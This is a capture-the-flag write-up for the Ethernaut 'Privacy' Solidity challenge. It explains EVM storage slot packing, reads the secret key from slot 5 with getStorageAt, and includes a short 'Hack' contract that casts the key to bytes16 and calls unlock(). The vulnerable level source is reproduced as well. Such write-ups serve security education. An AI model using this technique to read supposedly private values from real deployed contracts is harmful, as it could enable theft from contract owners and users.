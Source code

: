+++
title = 'Ethernaut Level 12 - Privacy'
date = 2024-08-04
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Understand how storages work'
tags = [ 'writeups' , 'blockchain' ]
+++
# Privacy
```
The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

    Understanding how storage works
    Understanding how parameter parsing works
    Understanding how casting works

Tips:

    Remember that metamask is just a commodity. Use another tool if it is presenting problems. Advanced gameplay could involve using remix, or your own web3 provider.
```
## Understanding how Storage works
> https://enderspub.kubertu.com/understand-solidity-storage-in-depth
Each EVM has a number of storage slots. Each storage slot can store 32 bytes.
* Storage stores variables, not constant
* Smaller variables are stored in the same slot until it would be filled


## Solution
Slots:
0. locked
1. ID
2. flattening, denomination, awkwardness
3. data[0]
4. data[1]
5. data[2] = key
```
await web3.eth.getStorageAt(contract.address, 5)
```
-> `0xf1b341c065a38b34e214b31a8133b46078510230cd7fa607152021ec84aab82f`


```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface Privacy {
    function unlock(bytes16 _key) external ;
}

contract Hack {

    constructor(address _target) {
        Privacy target_contract = Privacy(_target);
        // Secret key
        bytes memory b = abi.encodePacked(hex"f1b341c065a38b34e214b31a8133b46078510230cd7fa607152021ec84aab82f");
        target_contract.unlock(bytes16(b));
    }

}
```

## Level code
```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```
